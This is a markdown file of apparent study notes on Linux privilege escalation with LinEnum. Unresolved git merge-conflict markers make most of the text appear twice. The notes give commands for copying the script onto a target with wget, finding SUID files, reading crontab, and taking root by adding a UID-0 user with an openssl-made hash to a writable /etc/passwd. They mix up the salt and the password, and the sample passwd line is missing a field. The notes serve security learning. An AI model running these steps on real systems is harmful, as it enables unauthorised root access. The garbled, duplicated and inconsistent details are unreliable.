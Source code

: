 <<<<<<< HEAD
- tool for privilege escalation

- how to get it onto the target system?  
1. 
- go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using `python -m SimpleHTTPServer 8000"`
- using "wget" on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command "chmod +x FILENAME.sh"
2.     
- copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano
- save it as .sh
- make it executable: chmod +x FILENAME.sh

- running: ./LinEnum.sh

- LinEnum outputs:
	- kernel info
	- can we read/write sensitive files
	- SUID files
		- type of file permissions given to a file allowing the file to run with permissions of whoever the owner is (it can allow us to escalate privileges)
		- when special permission is given to a file, the file becomes SUID (Set user ID) or SGID (Set Group ID)
		- when extra bit “4” is set to user (Owner) it becomes SUID
		- when bit “2” is set to group it becomes SGID
		- finding them: `find / -perm -u=s -type f 2>/dev/null`
	- crontab contents - scheduled jobs
		- exploiting cron:
			- cat /etc/crontab
			- format: 
		```
		# = ID
		m = Minute
		h = Hour
		dom = Day of the month
		mon = Month
		dow = Day of the week
		user = What user the command will run as
		command = What command should be run
		```
		- eg: #  m   h dom mon dow user  command
     		`17  *  1   *    *    *     root  cd / && run-parts --report /etc/cron.hourly`
	- exploiting writable /etc/passwd
		- stores essential info for system login ~ stores user account info
		- plain text file
		- format is: `user_name:password:UID:GID:UID_info:home_directory:shell`; eg: `test:x:0:0:root:/root:/bin/bash`
		- when ‘x’ in passwd field it means that the password is stored in /etc/shadow
		- UID0 (user id) is reserved for roor user
		- GID (group id) - stored in /etc/group 
		- we can create new user, password hash, put him as root
		- passwd: `openssl passwd -1 -salt [salt] [password]` (salt=123, passwd=new)
		- add to /etc/passwd in format: `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash`
		- `su new > passwd: 123 `       
	- exploiting misconfigured binaries and GTFOBins
	- sudo -l
=======
- tool for privilege escalation

- how to get it onto the target system?  
1. 
- go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using `python -m SimpleHTTPServer 8000"`
- using "wget" on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command "chmod +x FILENAME.sh"
2.     
- copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano
- save it as .sh
- make it executable: chmod +x FILENAME.sh

- running: ./LinEnum.sh

- LinEnum outputs:
	- kernel info
	- can we read/write sensitive files
	- SUID files
		- type of file permissions given to a file allowing the file to run with permissions of whoever the owner is (it can allow us to escalate privileges)
		- when special permission is given to a file, the file becomes SUID (Set user ID) or SGID (Set Group ID)
		- when extra bit “4” is set to user (Owner) it becomes SUID
		- when bit “2” is set to group it becomes SGID
		- finding them: `find / -perm -u=s -type f 2>/dev/null`
	- crontab contents - scheduled jobs
		- exploiting cron:
			- cat /etc/crontab
			- format: 
		```
		# = ID
		m = Minute
		h = Hour
		dom = Day of the month
		mon = Month
		dow = Day of the week
		user = What user the command will run as
		command = What command should be run
		```
		- eg: #  m   h dom mon dow user  command
     		`17  *  1   *    *    *     root  cd / && run-parts --report /etc/cron.hourly`
	- exploiting writable /etc/passwd
		- stores essential info for system login ~ stores user account info
		- plain text file
		- format is: `user_name:password:UID:GID:UID_info:home_directory:shell`; eg: `test:x:0:0:root:/root:/bin/bash`
		- when ‘x’ in passwd field it means that the password is stored in /etc/shadow
		- UID0 (user id) is reserved for roor user
		- GID (group id) - stored in /etc/group 
		- we can create new user, password hash, put him as root
		- passwd: `openssl passwd -1 -salt [salt] [password]` (salt=123, passwd=new)
		- add to /etc/passwd in format: `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash`
		- `su new > passwd: 123 `       
	- exploiting misconfigured binaries and GTFOBins
	- sudo -l
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
		- user can have permission to NOPASSWD a binary